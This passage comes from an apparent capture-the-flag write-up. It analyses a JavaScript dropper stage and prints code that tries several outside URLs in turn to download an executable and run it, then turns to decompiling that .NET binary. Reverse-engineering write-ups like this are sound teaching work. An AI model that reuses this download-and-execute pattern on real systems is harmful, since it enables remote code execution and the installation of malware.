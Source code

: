 Looks like more Javascript, I saved it in [aftertroll.js](4_aftertroll.js)

The following is the important part of the code

```js
function getData(callback) {
    try {
        getDataFromUrl("http://r.u.kidding.me69/DAB58154yc/", function(result, error) {
            if ( ! error) {return callback(result, false); } 
            else {
                getDataFromUrl("http://shall.we.playctfga.me69/ni95716oSOsA/", function(result, error) {
                    if ( ! error) {return callback(result, false); } 
                    else {
                        getDataFromUrl("http://omgwtfbbq.no69/VqCj49674sPnb/", function(result, error) {
                            if ( ! error) {return callback(result, false); } 
                            else {
                                getDataFromUrl("http://nono.thiscannot.be69/Isb50659TZdS/", function(result, error) {
                                    if ( ! error) {return callback(result, false); } 
                                    else {
                                        getDataFromUrl("http://reversing.sg/pdfHWP/part1.flag.exe", function(result, error) {
                                            if ( ! error) {return callback(result, false); } 
                                            else {return callback(null, true); }
                                        });
                                    } 
                                }); 
                            } 
                        });
                    } 
                });
            } 
        }); 
    } 
    catch (error) {return callback(null, true); }
} 
```

This code basically tries to download a file from a set of urls and execute it.

The only url that works is "http://reversing.sg/pdfHWP/part1.flag.exe"

Download the exe and put it into IDA Pro.  
IDA Pro identifies it as a .Net executable  
Use dnSpy to decompile it instead

### Now its a .NET

The interesting part of the decompiled code is in [Form1.cs](5_Form1.cs)

